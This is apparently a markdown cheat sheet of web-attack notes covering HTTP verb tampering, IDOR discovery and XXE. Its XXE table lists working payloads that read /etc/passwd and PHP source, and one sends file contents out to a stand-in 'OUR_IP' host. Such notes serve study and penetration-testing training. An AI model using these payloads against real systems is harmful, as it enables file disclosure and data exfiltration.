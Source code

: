# Web Attacks

## HTTP Verb Tampering

`HTTP Method`

* `HEAD`
* `PUT`
* `DELETE`
* `OPTIONS`
* `PATCH`

| **Command**  | **Description**           |
| ------------ | ------------------------- |
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR

`Identify IDORS`

* In `URL parameters & APIs`
* In `AJAX Calls`
* By `understanding reference hashing/encoding`
* By `comparing user roles`

| **Command** | **Description**        |
| ----------- | ---------------------- |
| `md5sum`    | MD5 hash a string      |
| `base64`    | Base64 encode a string |

## XXE

| **Code**                                                                           | **Description**                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |

